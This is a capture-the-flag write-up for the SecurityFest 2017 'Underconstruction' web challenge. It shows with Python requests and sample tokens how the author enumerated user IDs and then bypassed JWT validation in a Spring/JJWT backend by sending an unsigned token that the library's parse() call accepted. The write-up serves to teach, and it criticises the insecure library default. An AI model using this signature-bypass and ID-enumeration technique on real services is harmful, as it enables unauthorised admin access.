 ```yaml
---
layout: post
title: "SecurityFest 2017: Underconstruction (Web 200)"
author: verr
categories: writeup
tags: [cat/web, tool/python, lang/java, tech/jwt, tech/jjwt]
---
```


* **Category:** Web
* **Points:** 200
* **Solves:** tbd
* **Description:**

>  Under Construction! Please protect your head, wear a hardhat.
>  
>  Service: http://web.ctf.rocks:8080 

## Write-up

This challenge was a weird one. Initial recon (favicon, error page) told us that we are dealing with Spring, but not much more. A hint in the `HTML` source was the beginning of our journey:

>  <!-- I don't know the status of the front end but the back end is coming along nicely. Try /login with {"username": "user", "password":"password"} -->

### Logging in

Since `/login` displayed an empty white page, and `GET`ing or `POST`ing the given credentials to it did not change anything (header, cookies, content), we used our beloved [requests](http://docs.python-requests.org/) to fire some non-form-encoded json directl at the endpoint (which [is supported by requests](http://docs.python-requests.org/en/master/user/quickstart/#more-complicated-post-requests)):

```python
data = {"username": "user", "password": "password"}
r = s.post(LOGIN, json=data)
```

which happily returned the following page content:

```
{"userId":"52","authorizedURLs":["/login","/apis"]}
```

and no cookies, but the following headers:

```
{ ...
 'Authorization': 'Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzEzNTgzM30.5oR_EfmqpBU_m3OYMToeyZVkycn_s42gjVjxc7ZUlX0'
... }
```

The `Authorization` header basically contains a signed [JSON Web Token](https://jwt.io/) holding the following payload:

```json
{
  "user": "user",
  "exp": 1497135833
}
```

This confirms that we are now logged in as user `user`. Keep that in mind for later.

### Looking around

The `authorizedURLs` field mentioned above tells us that there is another endpoint called `/apis`, which is the next step on our journey. Let's chat with it.

```python
r = s.get(URL + 'apis')
```

Yields:

```json
{"timestamp":1496272249731,
"status":400,
"error":"Bad Request",
"exception":"org.springframework.web.bind.MissingServletRequestParameterException",
"message":"Required Integer parameter 'userId' is not present",
"path":"/apis"}
```

Okay, we know from above that our `userId` is 52, so let us iterate over the first 100 or so ids ...

```python
for i in range(0, 100):
    payload = {"userId": i}
    r = s.get(URL + 'apis', params=payload)
    print r.text
```

Now that was a waste of LOC, since id 0 is the interesting one:

```json
{"urls":["/login","/apis","/supersecretflagresource"],
"id":0,
"user":"admin"}
```

Hello there! Yet another endpoint. The end is near ... 

```python
r = s.get(URL + 'supersecretflagresource')
```

But not so fast ...

```json
{"timestamp":1496272451108,
"status":403,
"error":"Forbidden",
"message":"Access is denied",
"path":"/supersecretflagresource"}
```

### Elevation of Privilege

Since the endpoint is associated to the `admin` user, we figure that we need to login as admin. But how? We don't know the password. Should we try SQLi now? Wait. Remember the JSON Web Token from earlier?

```
eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzEzNjQ1MX0.hoR2PKa1opg63MzTmNBkqbTPK9RZRoxhJeox7_HnEx0
```

Maybe the validation is crap and we can simply replace the payload?

```json
{
  "user": "admin",
  "exp": 1497136451
}
```

Copying the header and signature from the original token, we get:

```
eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4iLCJleHAiOjE0OTcxMzY0NTF9.hoR2PKa1opg63MzTmNBkqbTPK9RZRoxhJeox7_HnEx0
```

Let us send that to the server ...

```json
{"timestamp":1496272770574,
"status":500,
"error":"Internal Server Error",
"exception":"io.jsonwebtoken.SignatureException",
"message":"JWT signature does not match locally computed signature. JWT validity cannot be asserted and should not be trusted.",
"path":"/supersecretflagresource"}
```

Well, at least we now know that they are probably using *Java JWT* (`JJWT`) on the server to parse & validate the tokens.

Hours later, we still did not manage to validate our manipulated json, but while reading the [DefaultJwtParser](https://github.com/jwtk/jjwt/blob/master/src/main/java/io/jsonwebtoken/impl/DefaultJwtParser.java#L201) code (we guessed from some exceptions that they are using this one), we noticed something:

```java
if (base64UrlEncodedDigest != null) { //it is signed - validate the signature
    ...
}

```

What do you mean? Does this mean if no digest is present in the token, you simply do not validate anything but still accept the token? What the hell?

Can this be true? Let us try with the following token (the trailing dot needs to be there, since they literally count the dots) ...

```
eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4iLCJleHAiOjE0OTcxMzY0NTF9.
```

Yielding ...

```json
{"timestamp":1496273207665,
"status":500,
"error":"Internal Server Error",
"exception":"io.jsonwebtoken.exception.HeaderWithoutSignatureException","message":"JWT string is missing a signature.",
"path":"/supersecretflagresource"}
```

Oh, thank you friendly exception, thanks for letting us know. One more try with this token (note the leading dot) ...

```
.eyJ1c2VyIjoiYWRtaW4iLCJleHAiOjE0OTcxMzY0NTF9.
```

And here we go:

```json
{"message":"You are close now",
"script":"function getFlag() {   var text = $('.c-intro').innerText;   return 'SCTF{' + text.slice(35,38) + text.slice(0,10) + '}';}",
"url":"https://kits.se?kokitotsos"}
```

Since it appeared weird to us that this was possible with an actual library (likely in the most up to date version), we did some more research to figure out what actually happened. Reading closed issues on GitHub is always a fun thing to do, and apparently the answer by a maintainer to [this issue](https://github.com/jwtk/jjwt/issues/193) did the job:

> Don't call `parse` if you know it is a signed token. Call `parseClaimsJws`.

We think it is a dangerous thing to have the less-secure version as the default.
Other people also [share this opinion](https://github.com/jwtk/jjwt/issues/212), and apparently there is a change on the way.

### The Flag

Retrieving the actual flag after this "trick" was straight forward. Since the website mentioned in the response was in UTF8 encoded Swedish, and UTF8 in Python is never fun, we simply fired up the JavaScript console, pasted the given script, and done.

```javascript
 function getFlag() {
   var text = $('.c-intro').innerText;
   return 'SCTF{' + text.slice(35,38) + text.slice(0,10) + '}';
  }
```

Thanks for the flag & interesting challenge.

`SCTF{lolKOKITOTSOS}`

